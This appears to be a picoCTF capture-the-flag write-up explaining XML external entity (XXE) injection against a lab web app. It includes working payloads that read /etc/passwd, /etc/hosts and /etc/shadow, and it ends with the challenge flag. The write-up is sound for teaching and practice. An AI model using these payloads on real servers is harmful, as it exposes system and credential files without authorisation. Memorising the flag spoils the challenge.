



This task involves injecting XXE.


> [!NOTE]
> **XXE** – vulnerability that involves inserting malicious XML entities into code on a website that works with XML.


The web application has 3 buttons, each of which sends a POST request to the server when clicked. It can be seen `Inspect → Network → Click button`:  




An XML code is sent to the server, into which we can perform an XXE injection. 

I googled “XXE payload to read /etc/passwd” and on [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html) found a good example of such payload.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE func [<!ENTITY readflag SYSTEM "/etc/passwd"> ]>
<data><ID>&readflag;</ID></data>
```


Let's examine the payload structure in more detail:

- `<?xml version="1.0" encoding="UTF-8"?>` : standard XML document declaration. It is already present in POST requests from buttons.

- `<!DOCTYPE func [...]>` : *Document Type Definition*. The entities will be listed here.

- `<!ENTITY readflag SYSTEM "/etc/passwd">` : This is the external entity `SYSTEM`. External entities are needed to read content from outside the XML document. In our case from `/etc/passwd` file on server.

- `readflag` — is the name of the external entity and, at the same time, a placeholder where content from `/etc/passwd` will be inserted. 

- For substitution in tags `<data><ID></ID></data>` placeholder:  `&readflag;`


 Simplified structure looks like:


```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE root[
<!ENTITY itsname1 SYSTEM "/external/content">
<!ENTITY itsname2 ...>
...
]>
<data>
    <ID>
	&itsname1;
    </ID>
</data>
```


 
A more complex example of declaring entities for reading Linux server system files: \


```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE root[
<!ENTITY passwd	SYSTEM "/etc/passwd">
<!ENTITY hosts SYSTEM "/etc/hosts">
<!ENTITY shadow SYSTEM "/etc/shadow">
]>
<data>
    <users>&passwd;</users>
    <network>&hosts;</network>
    <secrets>&shadow;</secrets>
</data>
```


So, with DTD we declare an external entity (actually a variable with the contents of `/etc/passwd`) which we will insert into the XML document itself.





`picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}`
